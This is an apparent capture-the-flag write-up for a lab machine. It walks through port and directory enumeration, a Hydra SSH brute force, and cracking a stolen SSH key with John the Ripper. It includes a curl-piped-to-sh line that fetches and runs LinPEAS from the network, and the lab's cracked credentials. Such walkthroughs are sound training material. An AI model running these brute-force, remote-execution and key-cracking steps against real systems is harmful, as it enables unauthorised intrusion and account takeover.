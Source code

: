 # Basic-Pentesting -- CTF Writeup -- Exploiting Weak Credentials and Privilege Escalation

## Enumeration

### Nmap Scan

Initial port scanning revealed several open services:

``` bash
nmap -sC -sV 10.201.123.193
```

    Not shown: 994 closed ports
    PORT     STATE SERVICE
    22/tcp   open  ssh
    80/tcp   open  http
    139/tcp  open  netbios-ssn
    445/tcp  open  microsoft-ds
    8009/tcp open  ajp13
    8080/tcp open  http-proxy
    MAC Address: 16:FF:C4:EE:07:79 (Unknown)

The box is running SSH, web services (port 80 & 8080), and SMB
(139/445).

------------------------------------------------------------------------

### Web Enumeration

Using **Gobuster** against the HTTP service on port 80 uncovered an
interesting `/development` directory:

``` bash
gobuster dir -u http://10.201.123.193 -w /usr/share/wordlists/dirb/common.txt
```

    /development          (Status: 301) [--> http://10.201.123.193/development/]
    /index.html           (Status: 200)
    /server-status        (Status: 403)

Inside `/development`, there were developer notes hinting that the user
**j** had a weak password.

------------------------------------------------------------------------

### SMB Enumeration

Running **enum4linux** against the target listed three valid local
users:

``` bash
enum4linux -a 10.201.123.193
```

    S-1-22-1-1000 Unix User\kay (Local User)
    S-1-22-1-1001 Unix User\jan (Local User)
    S-1-22-1-1002 Unix User\ubuntu (Local User)

Combined with the hint from `/development`, this suggested brute forcing
**jan's SSH password**.

------------------------------------------------------------------------

## Exploitation

### SSH Brute Force

Using **Hydra** with the RockYou wordlist:

``` bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.201.123.193 -t 4
```

Successful credentials:

    jan : armando

We can now SSH into the machine as **jan**.

------------------------------------------------------------------------

## Privilege Escalation

### Enumeration with LinPEAS

After gaining a foothold, ran **LinPEAS** to enumerate privilege
escalation vectors:

``` bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

LinPEAS discovered an SSH private key (`id_rsa`) belonging to user
**kay**.

------------------------------------------------------------------------

### Cracking the Private Key

The key was encrypted, so it was converted into a hash and cracked with
**John the Ripper**:

``` bash
ssh2john id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

The passphrase was cracked:

    beeswax

------------------------------------------------------------------------

### Access as Kay

Using the decrypted private key, we SSH'd into the box as **kay**:

``` bash
ssh -i id_rsa kay@10.201.123.193
```

Inside kay's home directory was a file named `pass.bak`.

``` bash
cat pass.bak
```

This revealed the **final flag**.

------------------------------------------------------------------------

## Conclusion

This machine required:

-   Enumeration of SMB and web services\
-   Identifying weak SSH credentials (jan → armando)\
-   Privilege escalation via Kay's SSH private key (passphrase:
    beeswax)\
-   Extracting the final flag from Kay's account
